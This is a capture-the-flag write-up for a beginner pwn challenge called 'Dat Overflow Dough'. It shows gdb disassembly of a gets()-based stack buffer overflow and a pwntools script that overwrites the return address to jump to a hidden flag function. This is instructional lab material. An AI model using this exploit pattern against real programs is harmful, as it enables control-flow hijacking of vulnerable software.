 # Dat Overflow Dough

> Pwn

```text
Our new intern has only coded in memory safe languages, but we're trying to optimize, so he has been tasked with re-writing our dough recipe-application in C!

He sent his code to our senior dev for review who added some comments in the code. Upon receiving the reviewed code, the intern accidentally pushed it to production instead of fixing anything.
```

points: `50`

solves: `258`

author: `0xjeppe`

---

We are provided with a bunch of files:

- `code-review.md`: tells that the memory addresses of functions are static
- `recipe.c`: tells that `vulnerable_dough_recipe()` is prone to buffer overflow; `secret_dough_recipe()` is the function we need to call to get the flag
- `exploit.py`: sample pwntools code to overwrite return address
- `exploit`: binary
- `flag.txt`: redacted file to test payload locally

```gdb
(gdb) set disassembly-flavor intel
(gdb) disas vulnerable_dough_recipe 
Dump of assembler code for function vulnerable_dough_recipe:
   0x00000000004011ff <+0>: endbr64
   0x0000000000401203 <+4>: push   rbp
   0x0000000000401204 <+5>: mov    rbp,rsp
   0x0000000000401207 <+8>: sub    rsp,0x10
   0x000000000040120b <+12>:    lea    rax,[rip+0xe06]        # 0x402018
   0x0000000000401212 <+19>:    mov    rdi,rax
   0x0000000000401215 <+22>:    call   0x401080 <puts@plt>
   0x000000000040121a <+27>:    lea    rax,[rbp-0x10]
   0x000000000040121e <+31>:    mov    rdi,rax
   0x0000000000401221 <+34>:    mov    eax,0x0
   0x0000000000401226 <+39>:    call   0x401090 <gets@plt>
   0x000000000040122b <+44>:    nop
   0x000000000040122c <+45>:    leave
   0x000000000040122d <+46>:    ret
End of assembler dump.
```

Buffer of length **0x10**

```gdb
(gdb) disas secret_dough_recipe 
Dump of assembler code for function secret_dough_recipe:
   0x00000000004011b6 <+0>: endbr64
```

Test it locally:

```python
from pwn import *

RECIPE_BUFFER_SIZE = 0x10
RBP_SIZE = 0x8
SECRET_ADDRESS = 0x00000000004011b6
PROMPT = ""

USE_REMOTE = False
REMOTE_HOST = ""
REMOTE_PORT = 0

if USE_REMOTE:
    io = remote(REMOTE_HOST, REMOTE_PORT, ssl=True)
else:
    e = ELF("./recipe")
    io = e.process()

payload = b"A" * RECIPE_BUFFER_SIZE
payload += b"B" * RBP_SIZE
payload += p64(SECRET_ADDRESS)

io.recvuntil(PROMPT.encode())
io.sendline(payload)
io.interactive()
```

Set `USE_REMOTE`, `REMOTE_HOST`, `REMOTE_PORT` to run it remotely and get the flag
